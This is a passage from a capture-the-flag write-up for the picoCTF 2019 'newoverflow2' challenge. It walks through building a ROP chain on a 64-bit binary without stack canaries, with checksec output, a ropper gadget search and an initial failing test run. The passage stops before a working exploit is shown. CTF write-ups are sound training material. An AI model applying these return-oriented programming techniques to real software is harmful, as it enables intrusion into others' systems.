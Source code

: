 ```bash
    ASLR:     Enabled
[*] '/home/kali/Desktop/pctf/newoverflow2/vuln'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Starting remote process 'vuln' on 2019shell1.picoctf.com: pid 1957579
Welcome to 64-bit. Can you match these numbers?

[+] Receiving all data: Done (19B)
[*] Stopped remote process 'vuln' on 2019shell1.picoctf.com (pid 1957579)
Nope, not quite...
```
So far, so good.

### 3. Get to the win2 function
Following this I need to call the second function, win_fn2, but this time with three arguments. These arguments are 0xBAADCAFE, 0xCAFEBABE and 0xABADBABE.
These need to be loaded into the registers RDI, RSI and RDX. Looking at the info above, I can load RDI and RSI fine, but I see nothing that can get any value loaded into RDX. When looking at the possible gadgets, I notice there is one which will flip the boolean in the win_fn2 function and return. The point to jump to is visible when analysing in R2.  
![UI Screenshot](99%20-%20Training/Box%20Write-ups/Binary_Exploitation/ROP_newoverflow2/newof2.jpg) 
```bash
kali@kali:~/Desktop/pctf/newoverflow2$ ropper --file vuln --search mov
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: mov

[INFO] File: vuln
0x00000000004007b4: mov byte ptr [rip + 0x2008bf], 1; nop; pop rbp; ret;  <---- this one
0x0000000000400777: mov byte ptr [rip + 0x2008fb], 1; nop; pop rbp; ret; 
0x0000000000400742: mov byte ptr [rip + 0x20092f], 1; pop rbp; ret; 
0x00000000004008a5: mov eax, 0; call 0x610; nop; leave; ret; 
0x00000000004008c1: mov eax, 0; call 0x630; nop; leave; ret; 
0x0000000000400926: mov eax, 0; call 0x8b2; mov eax, 0; leave; ret;
```
Calling this will do the job.  
So now the ropchain looks like:
`pop rdi + argument + win_fn1 + movpop + somevalue`  
Where `movpop` is the above instruction and `somevalue` is a 8-byte random value to be popped into rbp before returning.

### 4. Test and refine the payload
Running it now, it doesn't work.
```bash
kali@kali:~/Desktop/pctf/newoverflow2$ python solve.py 
[+] Connecting to 2019shell1.picoctf.com on port 22: Done
[*] jib1337@2019shell1.picoctf.com:
    Distro    Ubuntu 18.04
    OS:       linux
    Arch:     amd64
    Version:  4.15.0
    ASLR:     Enabled
[*] '/home/kali/Desktop/pctf/newoverflow2/vuln'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```